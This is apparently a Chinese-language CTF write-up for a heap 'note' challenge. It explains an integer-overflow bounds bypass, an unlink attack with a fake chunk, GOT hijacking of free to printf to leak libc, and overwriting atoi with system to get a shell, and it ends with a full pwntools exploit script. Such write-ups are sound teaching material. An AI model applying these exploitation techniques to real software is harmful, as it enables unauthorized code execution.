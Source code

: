 本题漏洞在于 `edit` 时会判断输入的长度是否小于 0，如果是就取相反数。但是可以通过整数溢出，输入 `0x8000000000000000`，它的相反数恰好是它自身，并且依然是一个负数（-1）。这样就造成数组越界，可以覆盖到 `current_ptr`。

我们的思路是先让 `current_ptr` 指向 `note3`，然后利用越界覆盖一个 `fake_chunk` 到 `note3` 上，再释放 `note4` 触发 unlink，此时 `note3_ptr` 指向 `note0_ptr`，这样就可以实现 GOT 劫持。

但是本题的 `show` 功能被禁用，而我们还需要泄露 libc 地址。这里用的方法是在 bss 段空余处写入 `%llx.`，然后把 `free` 先劫持到 `printf`，去打印这一段格式化字符串，相当于手动造了一个格式化字符串漏洞。这样就可以泄露栈上内容，从而泄露位于栈上的 `__libc_start_main_ret` 地址（一般位于偏移量 11 处）。最后泄露 libc 得到 `system` 地址，覆盖 `atoi` 即可。


```python
def add(len,content='a'*8):
    sla('>>','1')
    sla('1024)',str(len))
    sla('content:',content)

def show(index):
    sla('>>','2')
    sla('note:',str(index))

def edit(index,content):
    sla('>>','3')
    sla('note:',str(index))
    sla('content:',content)

def delete(index):
    sla('>>','4')
    sla('note:',str(index))

negative = 0x8000000000000000
for i in range(8):
	add(0x200)
edit(3,'a')
fd = 0x6020c8+0x8*3-0x18
bk = 0x6020c8+0x8*3-0x10
fake_chunk = flat(0,0x201,fd,bk).ljust(0x200,'a')
fake_chunk += flat(0x200,0x210)
edit(-negative,fake_chunk)
delete(4)

edit(3,p64(elf.got['free']))
edit(0,p64(elf.plt['printf'])*2)

bss_blank = 0x602100
edit(3,p64(bss_blank))
edit(0,'%llx.'*0x10)
delete(0)
lsmr = int(ru('success').split('.')[10],16)
system,binsh = ret2libc(lsmr,'__libc_start_main_ret')
edit(3,p64(elf.got['atoi']))
edit(0,p64(system))

sla('>>','/bin/sh\x00')
```
